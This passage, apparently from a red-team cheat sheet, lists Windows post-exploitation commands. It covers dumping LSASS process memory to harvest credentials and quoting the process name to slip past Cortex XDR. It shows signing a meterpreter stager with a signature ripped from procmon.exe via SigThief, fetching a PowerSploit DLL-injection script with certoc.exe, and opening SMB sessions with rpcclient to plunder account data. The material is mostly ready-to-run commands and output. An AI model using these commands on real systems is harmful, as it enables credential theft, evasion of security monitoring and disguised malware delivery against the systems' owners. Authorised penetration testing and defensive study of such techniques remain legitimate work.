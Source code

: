 Uuse Dump64 to dump LSASS:

```
C:\> dump64.exe <pid> out.dmp
```

## Dumping LSASS Without Mimikatz:

To get LSASS process ID via CMD:

```
PS C:\Users\test> tasklist | findstr lsass
lsass.exe                      580 Services                   0     51,752 K
```

Depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):

```
procdump.exe -accepteula -ma “lsass.exe” out.dmp
```

## Stealing Signatures with SigThief:

Download: https://github.com/secretsquirrel/SigThief

Rips a signature off a signed PE file and appends it to another one, fixing up the certificate table to sign the file.

```
$ ./sigthief.py -i procmon.exe -t x86_meterpreter_stager.exe -o /tmp/definitely_legit.exe 

Output file: /tmp/definitely_legit.exe 
Signature appended. 
FIN.
```
## CertOC Downloads:

Downloads text formatted files

```
certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
```

## Plundering Account Information with RPCClient and SMBClient:

Once you have a user name and password and open SMB access of a target Windows client or server over TCP port 445, you can use rpcclient to open an authenticated SMB session to a target machine by running the following command on your Linux system:

```
$ rpcclient —U <username> <winipaddr>

# If the server allows NULL sessions, the following command could be utilized
$ $ rpcclient —U "" <winipaddr>
```

